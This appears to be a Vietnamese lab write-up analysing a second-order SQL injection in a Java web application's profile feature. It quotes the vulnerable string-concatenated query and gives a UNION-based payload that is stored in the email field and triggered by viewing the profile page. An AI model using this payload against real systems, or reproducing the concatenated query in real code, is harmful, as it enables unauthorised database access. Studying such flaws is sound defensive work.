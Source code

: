 
#### **2. Phân tích lỗ hổng trong `/profile`:**

1. **Mô tả chức năng:**
   - **Hàm `profile()`** thực hiện hai truy vấn SQL:
     - Truy vấn đầu tiên: Lấy thông tin người dùng dựa trên ID:
       ```java
       sql = "SELECT username, name, description, email, id FROM users WHERE id = ?";
       ```
     - Truy vấn thứ hai: Lấy danh sách bài viết của người dùng dựa trên email:
       ```java
       sql = "SELECT text, to_char(posted_at, 'dd.mm.yyyy, hh:mi') as posted_at_nice, username, name, author_id "
           + "FROM posts JOIN users ON posts.author_id = users.id WHERE email = '" + user.getEmail() + "' ORDER BY posted_at DESC";
       ```

2. **Điểm yếu:**
   - **Email** từ truy vấn đầu tiên được sử dụng trong truy vấn thứ hai mà không được tham số hóa, dẫn đến khả năng SQL Injection.
   - Nếu kẻ tấn công kiểm soát được giá trị **email** trong cơ sở dữ liệu, chúng có thể khai thác lỗ hổng này.

3. **Tìm nơi thay đổi giá trị email:**
   - Tìm kiếm truy vấn **UPDATE email** trong mã nguồn:
     ```bash
     grep -irnE 'UPDATE.*email'
     ```
   - Phát hiện lệnh cập nhật trong hàm `editProfilePOST()`:
     ```java
     sql = "UPDATE users SET name = ?, description = ?, email = ? WHERE id = ?";
     ```
   - Hàm này cho phép thay đổi thông tin người dùng qua endpoint `/profile/edit`.  
     Truy vấn **UPDATE** sử dụng tham số hóa nên không bị lỗi SQL Injection, nhưng giá trị email được lưu có thể gây ra khai thác bậc hai.

---

#### **3. Khai thác SQL Injection bậc hai:**

##### **Bước 1: Đặt payload trong email**

- Đăng nhập vào ứng dụng và truy cập `/profile/edit`.
- Nhập payload vào trường **email**.  
  Ví dụ payload với **Union-Based SQL Injection**:
  ```sql
  ' UNION SELECT '1','2','3','4',5--
  ```
- Nhấn **Update Details** để lưu payload vào cơ sở dữ liệu.

##### **Bước 2: Kích hoạt payload**

- Truy cập lại trang `/profile/{id}` để kích hoạt payload:
  ```sql
  SELECT text, to_char(posted_at, 'dd.mm.yyyy, hh:mi') as posted_at_nice, username, name, author_id 
  FROM posts JOIN users ON posts.author_id = users.id 
  WHERE email = '' UNION SELECT '1','2','3','4',5--' ORDER BY posted_at DESC
  ```
- Kết quả: Payload sẽ thực thi, và kẻ tấn công có thể truy xuất dữ liệu từ bảng khác qua câu lệnh `UNION`.

